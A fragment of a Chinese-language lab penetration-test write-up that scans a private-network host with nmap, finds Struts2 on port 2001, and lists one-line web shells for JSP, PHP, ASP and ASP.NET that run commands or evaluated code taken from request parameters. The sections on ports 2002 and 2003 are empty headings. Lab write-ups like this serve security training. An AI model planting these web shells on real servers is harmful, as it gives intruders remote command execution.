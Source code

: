    ![image-20221216112041866](assets/image-20221216112041866.png)

### 4. 开始攻击

#### 1. 信息收集-端口

**nmap扫描端口**

![image-20221216112440239](assets/image-20221216112440239.png)

发现22、2001、2002、2003端口

#### 2. 访问2001端口

http://192.168.157.132:2001/

**查看源码发现struct2**

jsp一句话木马

无回显

```
<%Runtime.getRuntime().exec(request.getParameter("p"));%>
```

```text
PHP:    
<?php @eval($_POST['chopper']);?>
ASP:    
<%eval request("chopper")%>
ASP.NET:    
<%@ Page Language="Jscript"%><%eval(Request.Item["z"],"unsafe");%>
```

#### 3. 访问2002端口

#### 4. 访问2003端口